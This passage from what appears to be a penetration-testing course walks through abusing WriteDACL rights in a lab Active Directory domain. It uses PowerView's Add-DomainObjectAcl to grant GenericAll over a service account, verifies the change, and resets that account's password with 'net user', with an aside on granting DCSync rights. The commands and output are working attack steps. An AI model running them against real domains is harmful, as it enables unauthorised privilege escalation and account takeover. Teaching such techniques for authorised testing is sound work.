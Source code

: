 > Listing 12 - Enumerating WriteDACL access rights

The output in Listing 12 reveals that our current user has WriteDACL access rights to the _TestService2_ user, which allows us to add new access rights like GenericAll.

We can use the Add-DomainObjectAcl PowerView method to apply additional access rights such as GenericAll, GenericWrite, or even _DCSync_[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5481-1) if the targeted object is the domain object.

For example, let's add the GenericAll access right to the _TestService2_ object.

```
PS C:\tools> Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```

> Listing 13 - Adding access rights with Add-DomainObjectAcl

Although the method is called _Add-DomainObjectAcl_, it will actually modify the current ACE if an entry already exists.

After attempting to modify the DACL, we'll dump it again to verify that GenericAll was applied correctly.

```
PS C:\tools> Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}


AceType               : AccessAllowed
ObjectDN              : CN=TestService2,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1608
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
```

> Listing 14 - Verifying the modified access rights

The highlighted section of Listing 14 reveals that we now have GenericAll access rights to _TestService2_. Let's change its password.

```
PS C:\tools> net user testservice2 h4x /domain
The request will be processed at a domain controller for domain prod.corp1.com.

The command completed successfully.
```
